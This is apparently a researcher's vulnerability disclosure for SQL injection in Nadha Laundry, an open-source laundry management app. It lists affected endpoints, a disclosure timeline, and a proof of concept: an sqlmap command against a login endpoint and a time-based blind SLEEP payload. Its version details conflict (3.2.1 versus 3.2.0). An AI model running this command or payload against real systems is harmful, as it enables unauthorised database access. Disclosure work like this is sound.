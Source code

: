 ```yaml
---
title: "SQL Injection at Nadha Laundry v3.2.1"
excerpt: "We found SQL Injection in Nadha Laundry v3.2.1, a Laundry Management App by NadhaMedia."
categories:
  - CVE
tags:
  - SQL Injection
toc: false
classes: wide
toc_label: "TOC"
toc_icon: "cogs"
toc_sticky: true
header:
  og_image: https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhPURFTrr7cNXgdYYHOLOGTqa_XM2gS-EZ-JiNujF2n7Eukd12I3_FYsFBtQmDzUuZRgNjlENL4SZQ53wolNcwAqOHxrbOX7u-g3DXt5Q042JV-yRxQcgk02xDtoppUEK3QZ4IlUtZzbWmgXLVPhIIfwl3dSfW_Geb4rHeCJBidRNYjpMF3eYA0pbjksisF/s888/
---
```


![Nadha Laundry](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhDHLg8NCGeQRf7mgiJ3qdtAfgj8bSOMYhRA5esWTb-nBun51AsIStg2SAA1c3ukuOZJlzXtfc7xvjCWqyW5MWHqwMh8o-go2OEj54KmZ9iZIq3M8iJrnpxla8cuUSy7hlcWCOd8YRfcMXNqV_7SL7QN9dgZcVvxJadWusnQMyX1L2mkMJqtApxQ6HbA_o/s930/nadha-laundry.png)

## Summary
During my vulnerability research on an open-source project, I discovered SQL Injection vulnerabilities at several endpoint in **Nadha Laundry**, a laundry management application using PHP & MYSQL developed by by NadhaMedia.

## Software Details

Detail about POS Nadha Resto.

| Parameter   | Value |
| ------------| ------------|
| Software | Nadha Laundry |
| Description | Laundry Management App based on **Uinsu Web Framework** |
| Developer | Aditia Darma Nasution, Hasnah Nur Ardita |
| Vendor URL | https://github.com/haxorsprogramming |
| Software URL | https://github.com/haxorsprogramming/Nadha-Laundry |

## SQL Injection at Several Endpoint

Vulnerability Summary:

| Parameter   | Value |
| ------------| ------------|
| CVE-ID | - |
| Classification | SQL Injection |
| Description | SQL Injection vulnerabilities have been discovered in multiple parameters of Nadha Laundry, both in authenticated and unauthenticated states. |
| Required privilege | Low, Unauth |
| Affected Version | 3.2.0 (#0~612c17a) |
| Publicly disclosed | 13.06.2024 |

We have discovered SQL Injection vulnerabilities **in all endpoint** that interacts with the database. The following are examples of such endpoints:

- POST /Nadha-Laundry/login/prosesLogin
- POST /Nadha-Laundry/utility/getInfoPelanggan
- POST /Nadha-Laundry/pengaturanUmum/prosesEditPengaturan
- etc

> Note: All parameter on affected endpoint is vulnerable to SQL Injection.

This is an example PoC of how to exploit SQL Injection on a login page.

**sqlmap**
```bash
sqlmap -u http://localhost/Nadha-Laundry/login/prosesLogin --data="username=a&password=x" -p username --flush-session --batch --dbms=mysql
```

Response:

```bash
sqlmap identified the following injection point(s) with a total of 65 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 6511 FROM (SELECT(SLEEP(5)))OmZe) AND 'VqXT'='VqXT&password=x
```

## Timeline
- 10 June 2024 - Found the vulnerability
- 10 June 2024 - Contact the developer
- 14 June 2024 - Article published
